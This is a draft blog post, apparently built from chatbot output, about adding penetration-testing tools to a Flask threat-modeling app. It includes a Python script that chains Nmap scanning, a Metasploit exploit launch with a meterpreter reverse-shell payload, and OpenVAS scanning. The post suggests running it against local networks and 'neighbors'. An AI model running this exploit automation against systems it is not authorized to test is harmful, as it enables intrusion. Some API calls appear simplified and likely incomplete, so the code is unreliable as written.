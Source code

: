 ```yaml
---
title: "An advanced threat modeling bot (ThreatSentry) - p3"
author: "c4r4nch0"
date: "2023-06-15"
draft: True
searchHidden: True
tags: ["threat modeling", "infosec", "coding"]
ShowToc: false
ShowBreadCrumbs: false
# cover:
#     image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSQud1wlz3Fl6brRiyQMKkg8XMhI2BE9J7SazqbG4DBOcbkVorYi34k1Y6axGErJj0L9LU&usqp=CAU"
#     # can also paste direct link from external site
#     # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
#     alt: "Bug Bounty Bootcamp"
#     caption: "Bug Bounty Bootcamp"
#     relative: false # To use relative path for cover image, used in hugo Page-bundles    
---
```

### Part 3: Integration with Penetration Testing Tools

Certainly! Here's an updated version using open-source tools for integration with a Flask application:

1. Nmap for Network Scanning:

   - Nmap is an open-source network scanning tool that helps identify hosts, open ports, and services running on a network.

   - You can use the python-nmap library, which provides a Python interface for Nmap, to integrate it into your Flask application.

   - Here's an example code snippet to perform a basic network scan using Nmap:

   ```python
   import nmap

   def perform_network_scan(target_ip):
       scanner = nmap.PortScanner()
       scanner.scan(target_ip, arguments='-p-')  # Scan all ports

       open_ports = []
       for host in scanner.all_hosts():
           for proto in scanner[host].all_protocols():
               for port in scanner[host][proto]:
                   if scanner[host][proto][port]['state'] == 'open':
                       open_ports.append(port)

       return open_ports
   ```

2. Metasploit Framework for Exploitation:

   - Metasploit Framework is an open-source penetration testing framework that provides a collection of exploit modules.

   - You can utilize the Metasploit Framework's msfrpc library to integrate it with your Flask application.

   - Here's an example code snippet to demonstrate executing a Metasploit module using the msfrpc library:

   ```python
   from msfrpc import MsfRpcClient

   def exploit_target(target_ip, target_port):
       client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
       exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

       exploit_module['RHOSTS'] = target_ip
       exploit_module['RPORT'] = target_port

       session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

       return session
   ```

3. OpenVAS for Vulnerability Scanning:

   - OpenVAS is an open-source vulnerability scanning tool that can identify security weaknesses in target systems.

   - You can use the python-gvm library, which provides a Python interface for OpenVAS/GVM, to integrate it into your Flask application.

   - Here's an example code snippet to initiate a vulnerability scan using OpenVAS:

   ```python
   from gvm.connections import TLSConnection
   from gvm.protocols.gmp import Gmp
   from gvm.transforms import EtreeTransform

   def initiate_vulnerability_scan(target_ip):
       connection = TLSConnection(hostname='openvas_server', port=9390)
       transform = EtreeTransform()

       with Gmp(connection, transform=transform) as gmp:
           gmp.authenticate('username', 'password')
           scan_id = gmp.create_task(target=target_ip)

           # Start the scan
           gmp.start_task(scan_id)

           return scan_id
   ```

Please note that these code snippets are simplified examples, and you would need to install the respective libraries (`python-nmap`, `msfrpc`, `python-gvm`) to use them in your Flask application. Additionally, ensure you have the necessary credentials and proper access to use these open-source tools within your application.

Now, for a practical example, lets do a script un python for testing local network and neighbors:

  ```python
    import nmap
    from msfrpc import MsfRpcClient
    from gvm.connections import TLSConnection
    from gvm.protocols.gmp import Gmp
    from gvm.transforms import EtreeTransform

    # Perform network scan using Nmap
    def perform_network_scan(target_ip):
        scanner = nmap.PortScanner()
        scanner.scan(target_ip, arguments='-p-')  # Scan all ports

        open_ports = []
        for host in scanner.all_hosts():
            for proto in scanner[host].all_protocols():
                for port in scanner[host][proto]:
                    if scanner[host][proto][port]['state'] == 'open':
                        open_ports.append(port)

        return open_ports

    # Exploit target using Metasploit Framework
    def exploit_target(target_ip, target_port):
        client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
        exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

        exploit_module['RHOSTS'] = target_ip
        exploit_module['RPORT'] = target_port

        session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

        return session

    # Initiate vulnerability scan using OpenVAS
    def initiate_vulnerability_scan(target_ip):
        connection = TLSConnection(hostname='openvas_server', port=9390)
        transform = EtreeTransform()

        with Gmp(connection, transform=transform) as gmp:
            gmp.authenticate('username', 'password')
            scan_id = gmp.create_task(target=target_ip)

            # Start the scan
            gmp.start_task(scan_id)

            return scan_id

    # Execute the scan, detect, and vulnerability check
    def execute_network_security_check(target_ip):
        # Network scan using Nmap
        open_ports = perform_network_scan(target_ip)

        # Exploit target using Metasploit Framework
        session = exploit_target(target_ip, 80)  # Adjust the target port as needed

        # Initiate vulnerability scan using OpenVAS
        scan_id = initiate_vulnerability_scan(target_ip)

        # Save the outputs to separate TXT files
        with open('network_scan_output.txt', 'w') as f:
            f.write('Open Ports:\n')
            for port in open_ports:
                f.write(f'{port}\n')

        with open('exploit_output.txt', 'w') as f:
            f.write('Exploit Session:\n')
            f.write(f'{session}\n')

        with open('vulnerability_scan_output.txt', 'w') as f:
            f.write('Scan ID:\n')
            f.write(f'{scan_id}\n')

        print('Network security check completed. Results saved to TXT files.')

    # Execute the script with your localhost IP as the target
    execute_network_security_check('localhost')
  ```
